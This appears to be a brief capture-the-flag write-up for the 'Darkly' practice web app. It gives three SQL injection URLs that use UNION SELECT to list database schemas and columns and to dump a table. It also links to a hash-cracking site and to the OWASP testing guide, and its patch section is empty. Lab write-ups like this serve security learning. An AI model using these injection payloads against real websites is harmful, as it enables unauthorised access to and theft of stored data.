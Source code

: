 ## Exploit

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_SCHEMA,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_NAME,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20title,comment%20FROM%20Member_images.list_images&Submit=Submit#

## Patch

## Resources

[Crack Hash with crackStation](https://crackstation.net/)

[OWASP SQL INJECTION](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html)
